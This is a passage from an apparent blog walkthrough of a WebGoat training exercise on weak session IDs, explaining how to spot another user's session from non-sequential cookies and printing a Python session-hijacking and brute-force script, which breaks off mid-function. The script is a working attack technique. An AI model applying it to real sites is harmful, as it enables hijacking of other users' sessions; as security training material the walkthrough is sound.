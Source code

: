 So our script here generates a bunch of requests and checks the cookies for sequentiality. If we find a cookie that is non-sequential to the last cookie that was generated, we have found an open session for another user! Let's run the script and see what we find:

<img src="{{ site.baseurl }}/images/2017-02-01-webgoat_part_18/open-session-brute-force.jpg">

Boom! We've got another user session. So we have the first part of the cookie, but not the second (the time of login). However, we know that the open session is going to be between two of our requested sessions. So we can grab the time from the cookie before and after the open session to find our window, and then brute-force the login time for the open session. Let's update our brute-force session hijacker to find the second half of the open session's cookie:

{% highlight python %}
import sys
import requests

class SessionHijack:
	def __init__(self, attack_url, current_webgoat_cookie):
		self.attack_url = attack_url
		self.current_webgoat_cookie= current_webgoat_cookie
		self.headers = {"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"}
		self.open_session_number = None
		self.open_session_previous_login = None
		self.open_session_next_login = None

	def find_open_session(self):
		print ("[*] Attempting to find open session")
		session_found = False
		previous_session_cookie = None
		cookies = dict(
				JSESSIONID=self.current_webgoat_cookie,
				acopendivids="swingset,jotto,phpbb2,redmine",
				acgroupswithpersist="nada"
			)
		while not session_found:
			r = requests.get(self.attack_url, headers=self.headers,cookies=cookies)
			current_session_cookie = r.cookies.get_dict()["WEAKID"]
			current_session_number = int(current_session_cookie.split("-")[0])
			print ("[-] Checking session: {}".format(current_session_cookie))
			if previous_session_cookie is None:
				previous_session_cookie = current_session_cookie
			elif (current_session_number - int(previous_session_cookie.split("-")[0])) != 1:
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				print ("[+] Found open session: {}".format(current_session_number - 1))
				print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
				self.open_session_number = current_session_number - 1
				self.open_session_previous_login = int(previous_session_cookie.split("-")[1])
				self.open_session_next_login = int(current_session_cookie.split("-")[1])
				session_found = True
			else:
				previous_session_cookie = current_session_cookie

	def brute_force_cookie(self):
		print ("[*] Attempting to brute-force session login time for\n[*]\t session: {} between {} and {}".format(
			self.open_session_number,
			self.open_session_previous_login, 
			self.open_session_next_login))
		attempts = 0
		logged_in = False
		login_time_guess = self.open_session_next_login
		while not logged_in and login_time_guess > self.open_session_previous_login - 1:
			attempts += 1
			reformed_id_guess = "{}-{}".format(self.open_session_number, login_time_guess)
			params = {"Username":"user","Password":"user","WEAKID":reformed_id_guess}
